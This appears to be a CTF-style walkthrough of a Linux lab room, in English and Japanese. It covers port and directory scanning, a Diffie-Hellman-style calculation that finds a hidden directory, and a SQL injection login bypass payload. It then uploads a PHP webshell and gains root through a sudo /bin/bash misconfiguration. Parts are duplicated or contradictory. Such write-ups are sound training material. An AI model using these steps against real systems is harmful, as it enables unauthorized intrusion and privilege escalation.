

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | source-code-review, weak-crypto-puzzle, auth-bypass |
| Privilege Escalation Path | sudo-misconfiguration |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)

```

## Nmap
```
ip
```

```
nmap -p- -sC -sV -T4 $ip
feroxbuster -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E
nikto -h $ip
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

最初のWeb列挙では手掛かりが薄く見えますが、ページソースコメントにある数値情報が突破口になります。  
このルームは「見えているHTTP機能」よりも「埋め込みヒントを復号-計算して次のURLを導く」流れが重要でした。

## 1. 初期探索

```
nmap -p- -sC -sV -T4 $ip
feroxbuster -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E
nikto -h $ip
```

`robots.txt` 以外で有効な手掛かりが乏しいため、HTMLソースを直接確認します。

## 2. ソースコメントから隠しディレクトリを算出

ページコメントには以下が埋め込まれていました。

```
p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
g: 7;
a: 330;
b: 450;
g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
```

これを Python で計算し、先頭128文字を隠しディレクトリ名として使用します。

```
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g = 7
a = 330
b = 450
gc = 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

gac = pow(gc, a, p)
gabc = pow(gac, b, p)
print(str(gabc)[:128])
```

算出結果:

```
47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
```

## 3. 認証バイパスとファイルアップロード

算出したディレクトリ配下のログイン画面で認証バイパス（例: `' or 1=1-- -`）を試し、管理画面に到達します。  
その後、アップロード機能で PHP WebShell を配置し、`www-data` シェルを取得します。

```
curl "http://$ip/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/"
```

## 4. 横展開と権限昇格

ローカル列挙で `ayush` の資格情報が残ったメモを確認し、ユーザー昇格します。

```
cat /home/ayush/.reminders
su ayush
sudo -l
sudo /bin/bash
cat /root/root.txt
```

`sudo -l` で `NOPASSWD: /bin/bash` が確認できるため、そのまま root 取得が可能です。

## 5. まとめ

このルームは、Web脆弱性単体より「コメント解析→数値計算→隠しURL発見→アップロードRCE→設定不備sudo」という連鎖で突破します。  
OSCP視点では、手掛かりが薄い時にソースと補助情報を疑う姿勢が特に重要です。
```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
cat /home/ayush/.reminders
su ayush
sudo -l
sudo /bin/bash
cat /root/root.txt
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- nikto
- sudo
- ssh
- curl
- cat
- python
- php
- GTFOBins
